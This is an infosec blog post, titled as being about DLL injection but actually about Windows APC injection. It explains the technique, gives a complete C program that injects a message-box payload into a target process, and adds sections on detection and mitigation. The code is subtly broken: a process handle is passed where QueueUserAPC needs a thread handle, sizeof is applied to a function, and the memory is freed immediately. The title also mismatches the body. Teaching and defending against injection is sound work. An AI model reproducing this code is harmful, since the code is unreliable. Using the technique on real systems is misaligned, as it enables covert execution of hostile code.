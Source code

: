 ```yaml
---
layout: single
title: "Payload Unleashed: DLL Injection"
date: 2024-03-01
classes: wide
header:
  teaser: /assets/images/maldev.png
categories:
  - infosec
tags:
  - windows
  - malware
  - payload-unleashed
---
```

# Understanding Asynchronous Procedure Calls (APC)

Asynchronous Procedure Calls (APC) are a fundamental mechanism in Windows operating systems, facilitating asynchronous execution of code within a process context. APCs are typically used for tasks like I/O completion, thread execution, and more. However, attackers exploit this mechanism to inject and execute malicious code within legitimate processes.

# How APC Injection Works

APC injection involves the insertion of malicious code into the address space of a target process by queuing a fake APC to be executed at a specific point in the process. This technique enables attackers to execute arbitrary code in the context of a legitimate process, thereby bypassing traditional security mechanisms.

The injection process typically follows these steps:

1. **Process Selection**: The attacker identifies a target process where they intend to inject malicious code.
2. **Memory Allocation**: They allocate memory within the target process to store the malicious payload.
3. **Payload Injection**: The attacker copies their malicious code into the allocated memory space of the target process.
4. **APC Queuing**: A fake APC is queued to the target process, pointing to the address of the malicious code.
5. **Execution**: When the target process enters an alertable state, the queued APC is executed, leading to the execution of the malicious payload.

# Hands-On: APC Injection with C Code Snippet

## Understanding the APC Injection Process

Before delving into the code snippet, let's understand the purpose of each function used in the APC injection process and its significance within the attack:

1. **OpenProcess()**: This function is used to open a handle to the target process identified by its process ID (`<TARGET_PROCESS_ID>`). By opening the target process, we gain the necessary access rights to perform operations such as memory allocation and writing.

2. **VirtualAllocEx()**: Once the target process is opened, this function is employed to allocate memory within the target process's address space. This allocated memory will be used to store the malicious payload, enabling its execution within the context of the target process.

3. **WriteProcessMemory()**: With memory allocated within the target process, this function is utilized to write the malicious payload (in this case, the `MaliciousCode` function) into the allocated memory space. By writing the payload into the target process's memory, we prepare for its execution within the context of the process.

4. **QueueUserAPC()**: This function is central to the APC injection technique. It queues an Asynchronous Procedure Call (APC) to the target process, specifying the address of the malicious payload to be executed. When the target process enters an alertable state, typically during certain system calls or when waiting for I/O operations, the queued APC is scheduled for execution.

5. **Malicious Payload Execution**: Upon entering an alertable state, the queued APC is executed within the target process. As a result, the address of the malicious payload is invoked, leading to the execution of the malicious code within the context of the legitimate process.

## C Code Snippet
Now, let's dive into the provided C code snippet, which demonstrates the APC injection process:

```c
#include <windows.h>
#include <stdio.h>

// Function pointer for the malicious payload
typedef VOID (*MALICIOUS_PAYLOAD)();

// Malicious payload to be executed
VOID MaliciousCode()
{
    MessageBoxA(NULL, "Malicious payload executed!", "APC Injection", MB_OK | MB_ICONWARNING);
}

int main()
{
    // Open the target process for injection
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, <TARGET_PROCESS_ID>); // Replace <TARGET_PROCESS_ID> with the process ID of the target process

    if (hProcess == NULL)
    {
        printf("Failed to open target process. Error code: %d\n", GetLastError());
        return 1;
    }

    // Allocate memory within the target process for the malicious payload
    LPVOID pPayloadAddress = VirtualAllocEx(hProcess, NULL, sizeof(MaliciousCode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    if (pPayloadAddress == NULL)
    {
        printf("Failed to allocate memory in target process. Error code: %d\n", GetLastError());
        CloseHandle(hProcess);
        return 1;
    }

    // Write the malicious payload to the allocated memory in the target process
    if (!WriteProcessMemory(hProcess, pPayloadAddress, &MaliciousCode, sizeof(MaliciousCode), NULL))
    {
        printf("Failed to write malicious payload to target process. Error code: %d\n", GetLastError());
        VirtualFreeEx(hProcess, pPayloadAddress, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return 1;
    }

    // Queue the APC to the target process
    if (!QueueUserAPC((PAPCFUNC)pPayloadAddress, hProcess, NULL))
    {
        printf("Failed to queue APC to target process. Error code: %d\n", GetLastError());
        VirtualFreeEx(hProcess, pPayloadAddress, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return 1;
    }

    printf("APC injected successfully!\n");

    // Clean up
    VirtualFreeEx(hProcess, pPayloadAddress, 0, MEM_RELEASE);
    CloseHandle(hProcess);

    return 0;
}
```

This code snippet encapsulates the entire process of APC injection, from opening the target process to executing the malicious payload within its context. 

# Detection challenges

Detecting APC injection presents significant challenges for security solutions due to its stealthy nature. Traditional antivirus software and endpoint detection mechanisms often struggle to identify such attacks due to the following reasons:

1. **Process Context**: Since APCs execute within the context of a legitimate process, distinguishing between legitimate and malicious APCs becomes challenging.
2. **Dynamic Nature**: APC injection involves dynamic memory allocation and code execution, making it harder to detect using static analysis techniques.
3. **Minimal Footprint**: Malicious APCs leave minimal footprint, making them harder to detect compared to traditional injection techniques.

# Mitigation Strategies

While APC injection poses a formidable challenge, there are several mitigation strategies that organizations can employ to bolster their defenses:

1. **Behavioral Analysis**: Implement behavioral analysis techniques to monitor process behavior and detect anomalous activity indicative of APC injection.
2. **Code Signing**: Enforce code signing policies to ensure that only trusted code can be executed within processes, thereby preventing the execution of unsigned or malicious code.
3. **Memory Protection**: Employ memory protection mechanisms such as Data Execution Prevention (DEP) and Address Space Layout Randomization (ASLR) to mitigate the impact of memory-based attacks.
4. **API Monitoring**: Monitor system APIs for suspicious activity related to APC manipulation and injection.

# Conclusion
In this post, we've explored the intricacies of Asynchronous Procedure Calls (APC) injection, a sophisticated technique utilized by malicious actors in the realm of cybersecurity. APC injection involves surreptitiously inserting malicious code into the address space of legitimate processes, leveraging the Windows operating system's mechanism for asynchronous code execution. Despite its stealthy nature, APC injection poses significant challenges for detection, evading traditional security measures due to its minimal footprint and dynamic execution.

Through a hands-on demonstration with a C code snippet, we've showcased the practical implementation of APC injection, highlighting the critical role of each function within the attack process. By understanding the mechanics of APC injection and its implications, we empower defenders and practitioners to fortify their defenses against evolving cyber threats. Stay tuned for more insights into the dynamic landscape of cybersecurity in our ongoing series, "Unraveling the Malware Mysteries."